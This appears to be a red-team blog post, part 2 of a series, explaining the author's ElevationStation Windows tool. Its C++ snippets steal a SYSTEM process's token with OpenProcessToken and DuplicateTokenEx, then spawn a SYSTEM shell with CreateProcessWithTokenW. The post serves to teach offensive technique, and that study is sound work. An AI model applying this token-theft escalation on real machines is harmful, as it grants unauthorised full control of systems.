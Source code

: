 ```yaml
---
title:  "ElevationStation - A walk through the development process [PART 2]"
header:
  teaser: "/assets/images/teaser2.png"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hello again Infosec enthusiasts! Last time we talked, we discussed enabling token privileges for our current process so we can remotely access other processes via the SeDebug privilege. Let's continue on through the code shall we 😃

For review, we are here in the code:
```cpp
int DupProcessToken(DWORD pid)
{
    //enable ALL necessary privs!!!
   ➡️ setProcessPrivs(SE_DEBUG_NAME); ⬅️
    //priv enable routine complete
    BOOL bRet;
```
So we've successfully set our process privileges.  Now, let's steal the `SYSTEM` token we desire from our target process shall we?  To do so, we first need to open the remote process and get a handle on the remote process token.  Interestingly and favourably for us, we can open a remote `SYSTEM` process using the lowest level of desired access permitted, `PROCESS_QUERY_LIMITED_INFORMATION`, like so:
```cpp
proc2 = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    if (!proc2)
    {
        Color(14);
        printf("[!] There was a permissions error opening process: %d w/ requested access...: %d\n", pid, GetLastError());
        Color(7);
        exit(0);
    }

    if (!OpenProcessToken(proc2, MAXIMUM_ALLOWED, &tok2))
    {
        Color(14);
        printf("[!] There was a permissions error applying the requested access to the token: %d\n", GetLastError());
        Color(7);
        exit(0);
    }
  ```
Next, we duplicate the token aquired in our token HANDLE and now we have an exact replica of the `SYSTEM` process token with all it's glorious privileges!
```cpp
if (!DuplicateTokenEx(tok2, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx failed. Error: %d\n", GetLastError());
        Color(7);
    }
    else
    {
        Color(2);
        printf("[+] DuplicateTokenEx success!!!\n");
        Color(7);
    }
```

`BEFORE` Duplicating Token:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/c05126fe-33e9-4709-82b3-7a5c4001f1f5)

and `AFTER` duplicating the token.  Notice a strikingly noteworthy difference? 😸
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5698a405-fd3a-4343-bfdc-b7630989a2f2)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2ef7009a-27a4-48c9-985f-57a4797d80c6)

Our `elevationstation.exe` process now **OWNS** a primary token with `SYSTEM` privileges, successfully duplicating the remote `SYSTEM` level process!  Now the moment you have all been waiting for... it's finally time to pop a SYSTEM shell!


```cpp
bRet = CreateProcessWithTokenW(hNewToken, NULL, NULL, wszProcessName, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessWithToken didn't cooperate...permissions maybe???\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessWithToken worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);
    }
    CloseHandle(hNewToken);
    CloseHandle(proc2);
    CloseHandle(tok2);
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f7733753-d908-4409-a7df-2edb94adb49f)

And there you have it friends.  This concludes part 2 of our series explaining ElevationStation and the code behind how it works.  This portion of the series has only explained stealing primary tokens from a process. Next time, I'll walk you through stealing a remote process impersonation `THREAD` token and "converting" it to a primary token to gain a SYSTEM shell within your current shell, avoiding the headache of having to deal with CreateProcessWithToken's limitations 😆

bye!
